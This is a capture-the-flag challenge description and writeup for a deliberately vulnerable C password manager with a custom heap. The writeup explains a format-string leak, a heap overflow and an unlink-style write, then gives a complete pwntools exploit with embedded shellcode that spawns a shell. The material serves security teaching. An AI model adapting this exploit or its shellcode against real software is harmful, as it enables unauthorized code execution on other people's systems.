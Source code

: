 # Name
Password Manager

# Description
I programmed my own open-source password manager, and it is completely unhackable! I even made my own custom heap implementation to secure myself against heap exploitation attempts! I don't care how good of a hacker you are, even with my source code, you won't be able to open up a shell in my program!

TODO: Put a netcat command here telling them which server to connect to in order to test the exploit.

# Difficulty
7/10

# Flag
I haven't programmed a flag into this yet. Basically, after they exploit the program, they should get a shell into the server running this program. There should be a flag.txt file on that server in the same directory as the program, which they should be able to cat. Whoever is setting up this server can just put whatever they want into the flag.txt file and have that be the flag.

# Hints
None

# Author Name
Nihaal Prasad

# Writeup
The user is given four files: alloc.c, alloc.h, passwd.c, and password. If they execute the password file, they should see the following printed out:

```
Hello, welcome to the world's greatest password manager!
This password manager is so amazing that it uses a custom
heap implementation! No hacker will ever be successful in
conducting a heap overflow against this application (let
alone ever obtain a shell)! It is impossible to hack into
this application, so you shouldn't even bother trying!

To create a new account, please enter a username: 
```

After typing in a username, the program gives the user the option to add, delete, modify, and print out passwords.
```
To create a new account, please enter a username: Nihaal
A new account for Nihaal has been created.

Available commands:
new: Create a new password.
print <id>: Prints out the password with the given ID.
del <id>: Deletes the password with the given ID.
modify <id>: Modifies the password with the given ID.
quit: Stop the program.
> 
```

There are multiple vulnerabilities here that must be chained together for the exploit to work. If you look in passwd.c, you can see the a format string vulnerability in the print_pass() function
```
void print_pass(pass_t *n) {
        printf("Password #%ld\n", n->id);
        printf(n->pass);
}
```

If you immediately create a new password with "%8$p" as its string, then when you print out the password, you'll get the eighth pointer from the stack. Adding 208 to this address gives us the address of our username (where we'll put in our shellcode). Subtracting 40 from this address gives us the address of the return address for heap_alloc(), which will be helpful later.

```
void modify_id(unsigned long id, pass_t *head) {
        pass_t *tmp = head;
        while(tmp != NULL && tmp->id != id) {
                tmp = tmp->next;
        }
        if(tmp != NULL) {
                printf("Enter the modified password (%d max characters): ", BUF_SIZE);
                fgets(tmp->pass, 1000, stdin);
        } else {
                printf("Invalid ID.\n");
        }
}
```

The modify\_id() function in passwd.c contains the second vulnerability. This function can move up to 1000 bytes into tmp->pass. If you look into the definition of `pass_t`, you'll see that it contains a 128-byte array, two pointers, and a long, which makes a single `pass_t` variable 152 bytes long. Therefore, if you modify a password and type in more than 152 bytes, you will be able to do a heap overflow.

```
typedef struct pass {
        char pass[BUF_SIZE];
        struct pass *next;
        struct pass *prev;
        unsigned long id;
} pass_t;
```

If we look into the definition of a `heap_header_t`, we'll see that there are four variables: `next`, `prev`, `size`, `free`. If we use the `modify_id()` function to conduct a heap overflow, then we should be able to overwrite all four of these values in the adjacent heap chunk. In other words, we can completely control the header of the chunks that comes right after the chunk we are currently writing to.

```
typedef union heap_header {
    struct {
        union heap_header *next;
        union heap_header *prev;
        size_t size;
        char free;
    } data;
    char align[32];
} heap_header_t;
```

Now look at the `heap_alloc()` function in alloc.c to find the main vulnerability that makes obtaining a shell possible. Suppose someone called `heap_alloc()`, and there is a free chunk that already exists. The following steps will occur in this situation:
1. `heap_alloc()` will call `first_fit()` to search for a free chunk.
2. It will then remove the free chunk from the linked list of free chunks.
3. It mainly uses a couple lines of code to accomplish this, which are shown below:
```
if(ret->data.prev) {
    ret->data.prev->data.next = ret->data.next;
}
if(ret->data.next) {
    ret->data.next->data.prev = ret->data.prev;
}
```
These lines of code are used to remove the free chunk from the linked list of free chunks. However, consider the fact that we can control the values of `data.next` and `data.prev` (if it comes right after a chunk we can write to). If we were to overwrite the value of `data.next` with the address of the return address of `ncha_alloc()`, then the return address would be set equal to `data.prev`. If we set `data.prev` to the address of our username, then we can just set our username to our shellcode and obtain code execution in that manner!

To accomplish this, we will create three new passwords. Then, we'll delete the second password. Next, we'll modify the first password and overwite the header of the second heap chunk. If done correctly, we will immediately obtain code execution when we create a fourth password. Here is some python code that does just that:

```
#!/usr/bin/env python3

from pwn import *

# Open the process
p = process("./password", stdin=PTY)
# gdb.attach(p, "b heap_alloc\nc")

# Ignore the intro
p.recvuntil("please enter a username:")

# Send the shellcode as our name
shellcode = b"\x48\x31\xc0\x48\x31\xff\xb0\x03\x0f\x05\x50\x48\xbf\x2f\x64\x65\x76\x2f\x74\x74\x79\x57\x54\x5f\x50\x5e\x66\xbe\x02\x27\xb0\x02\x0f\x05\x48\x31\xc0\xb0\x3b\x48\x31\xdb\x53\xbb\x6e\x2f\x73\x68\x48\xc1\xe3\x10\x66\xbb\x62\x69\x48\xc1\xe3\x10\xb7\x2f\x53\x48\x89\xe7\x48\x83\xc7\x01\x48\x31\xf6\x48\x31\xd2\x0f\x05"
shellcode = (b"\x90"*(126-len(shellcode))) + shellcode
p.sendline(shellcode)

# Ignore the other shit
p.recvuntil("> ")

# Leak an address from the stack
p.sendline("new") # Create a new chunk on the heap
p.sendline("%8$p") # Eighth value on the stack is what we want
first_password_id = p.recvline()[67:-2] # Get the first password's ID
p.sendline(b"print " + first_password_id) # Print out the password
p.recvline() # ignore a line
leaked_addr = int(p.recvline(), 16) # Leak the address on the stack
shellcode_addr = p64(leaked_addr + 208) # Shellcode is 208 bytes away from the leaked address
return_addr = p64(leaked_addr - 40) # Address of return address is 40 bytes away

# Create two more passwords
p.sendline("new")
p.sendline("AAAAAAAA")
second_password_id = p.recvline()[69:-2]
p.sendline("new")
p.sendline("BBBBBBBB")
p.recvline() # Ignore this line, we don't need it

# Deallocate the second password to create a free chunk on the heap
p.sendline(b"del " + second_password_id)

# Generate a payload that will corrupt a chunk on the heap
payload = b"A"*152
payload += shellcode_addr
payload += return_addr
payload += b"\xff\xff\xff\xff\xff\xff\xff\xff\x01"

# Save the payload to the first password so that it corrupts the second chunk
p.sendline(b"modify " + first_password_id)
p.sendline(payload)

# When a new node is created, it will use the next free chunk.
# Since the free chunk is corrupted, this will trigger a heap overflow.
p.sendline("new")
p.interactive()
```
